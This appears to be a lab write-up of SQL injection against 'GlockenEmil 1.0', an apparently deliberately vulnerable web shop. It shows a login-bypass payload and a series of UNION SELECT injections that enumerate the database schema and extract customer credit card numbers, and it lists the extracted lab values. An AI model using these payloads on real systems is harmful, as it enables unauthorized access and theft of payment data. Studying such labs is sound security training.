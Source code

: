 # GlockenEmil 1.0 - SQL Injection Attack

- watched Request and Response of the login page for arbitrary logins via Burp Proxy
- we assume that the login query would look something like this:

```sql
SELECT 1 FROM user WHERE username='___' AND password='___';
```

- we tried the `'OR ''=''` separately/together in the username and password field to exploit a known vulnerability
- if we use that in the password field we can successfully login without the correct password
- the credit card number of `hacker10` is `1323-4545-6767-8989`
- to prevent this attack a proper input validation and sanitizing is needed

# GlockenEmil 1.0 – SQL Injection with UNION

- searched for `Muotathaler Treichel` just to see what we get as a result
- we get information about the product with 5 columns
- the 5 columns are `productid`, `name`, `description`, `price`, `picture`
- we tried the usual SQL Injection just to check if we can do anything by adding `'OR 1=1--` but we got the error that we're in `boolean mode`
- also we noticed the `parenthesis`

```text
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'OR 1=1-- ' in boolean mode)' at line 1
```

- based on that we tried to modify our injection to `') OR 1=1#`
- by doing so we could get a valid response. We first parenthesized our injection and also added `#` to comment out everything after our command
- also we prevent the boolean mode
- after that we tried to get general DB and table infos

```sql
') UNION SELECT 1,schema_name,3,4,5 FROM INFORMATION_SCHEMA.SCHEMATA#
```

```sql
') UNION SELECT 1,table_name,3,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'glocken_emil'#
```

```sql
') UNION SELECT 1,column_name,3,4,5 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name = 'customers'#
```

```sql
') UNION SELECT 1,username,creditcard,4,5 FROM customers#
```

- with the last injection we found out the credit card number of the user `hacker42`

```text
hacker42 -> 2323-4545-2354-8989
```

- to prevent this attack a proper input validation and sanitizing is needed
